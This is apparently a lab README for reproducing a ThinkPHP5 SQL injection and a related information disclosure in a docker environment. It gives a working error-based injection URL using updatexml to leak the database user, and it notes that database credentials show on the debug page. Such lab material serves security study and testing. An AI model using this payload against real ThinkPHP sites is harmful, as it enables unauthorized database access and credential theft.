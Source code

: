 # ThinkPHP5 SQL Injection Vulnerability && Sensitive Information Disclosure Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Rationale

Details to read the references：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## Environment Setup

Enter the following command:

```
docker compose up -d
```

Visiting `http://your-ip/index.php?ids[]=1&ids[]=2`, you'll see the username is displayed, indicating that the environment is running successfully.

## Exploit

Open the page `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，you will find messages revealed successfully：

![](01.png)

And you can find the account and password of the database through the debug page.

![](02.png)

This is another sensitive information disclosure vulnerability.

